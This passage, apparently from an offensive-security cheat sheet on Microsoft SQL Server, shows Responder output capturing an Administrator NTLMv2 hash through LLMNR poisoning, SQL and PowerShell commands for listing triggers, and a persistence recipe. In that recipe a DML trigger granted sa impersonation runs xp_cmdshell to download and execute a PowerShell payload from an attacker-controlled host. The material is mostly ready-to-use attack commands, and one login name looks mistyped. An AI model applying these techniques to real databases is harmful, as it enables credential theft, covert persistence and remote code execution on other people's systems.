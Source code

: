 > we captured the hash of the **Administrator** with this VBA script.

```
[+] Listening for events...
[*] [LLMNR]  Poisoned answer sent to 10.10.14.33 for name doesnotexist
[MSSQL-BROWSER] Sending poisoned browser response to 10.10.14.33
[*] [LLMNR]  Poisoned answer sent to 10.10.14.33 for name doesnotexist
[*] [LLMNR]  Poisoned answer sent to 10.10.14.33 for name doesnotexist
[MSSQL] NTLMv2 Client   : 10.1.2.3
[MSSQL] NTLMv2 Username : TEST\Administrator
[MSSQL] NTLMv2 Hash     : Administrator::TEST:1122334455667788...
```

#### DML, DDL and Logon Triggers

\[ ❓ ] : **Triggers** are a stored procedure that automatically executes when an event occurs in the SQL Server.

* Data Definition Language (DDL) – Executes on Create, Alter and Drop statements and some system stored procedures.
* Data Manipulation Language (DML) – Executes on Insert, Update and Delete statements.
* Logon Triggers – Executes on a user logon.

**Triggers Listing**

_list All triggers_

```
SELECT * FROM sys.server_triggers
```

_list triggers for a database_

```
SELECT * FROM sys.server_triggers
```

_list DDL and DML triggers on an instance using powershell_

```
Get-SQLTriggerDdl -Instance ops-sqlsrvone -username $username -Password $password -Verbose
Get-SQLTriggerDml -Instance ops-sqlsrvone -username $username -Password $password -Verbose
```

_use DML triggers for persistence_

```
USE master
GRANT IMPERSONATE ON LOGIN::sa to [Public];
USE testdb
CREATE TRIGGER [persistence_dml_1]
ON testdb.dbo.datatable
FOR INSERT, UPDATE, DELETE AS
EXECUTE AS LOGIN = 'as'
EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString('http://$ip_attacker/payload.ps1')"'
GO
```
